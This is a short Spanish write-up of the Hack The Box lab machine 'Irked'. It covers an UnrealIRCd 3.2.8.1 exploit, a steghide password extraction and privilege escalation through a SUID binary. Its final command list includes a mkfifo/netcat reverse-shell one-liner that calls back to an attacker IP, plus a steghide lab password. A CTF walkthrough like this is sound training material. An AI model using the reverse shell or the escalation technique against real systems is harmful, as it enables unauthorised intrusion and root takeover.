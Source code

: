 Irked es un box media tirando a fácil cuenta con temas de explotación de vulnerabilidades, estenografía a imágenes JPG y explotación de binarios para escalar privilegios. 

Al escanear la máquina encontramos el puerto 6697 abierto y también un dominó, buscando en internet se encuentra que es posible sacar la versión del servicio que corre en ese puerto, que es Unreal 3.2.8.1. 

Buscamos un exploit que no utilice metasploit en github y obtenemos acceso al pc. Enumerando encontramos que el flag está dentro del user djmarov al cual no tenemos acceso, pero dentro del directorio documents de manera oculta detectamos un archivo llamado backup que contiene un posible password, dentro nos da una pista que dice steg de la herramienta steghide la cual sirve para extraer archivos o información de imágenes JPG que se guardan o se ocultan en un archivo (estenografía). 

En este caso guardaba un archivo llamado pass.txt con una credencial que nos permite acceder por medio de ssh, enumeramos el equipo y encontramos un binario que se ejecuta como root llamado viewuser el cual guarda su output en un archivo ubicado en /tmp/listuser, al ejecutar detectamos que no existe, se crea este archivo y se añade una reverse Shell obteniendo acceso al usuario root.




Habilidades:

Explotacion Unreal 3.2.8.1
Estaganografia jpg steghide
binario viewuser

Comandos utilizados:

sudo nmap -Pn -sU --top-ports 500 10.10.10.117
nc 10.10.10.117 6697
USER master 0 * master
Nick master
steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
find / -perm -4000 2>/dev/null
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f" > /tmp/listusers
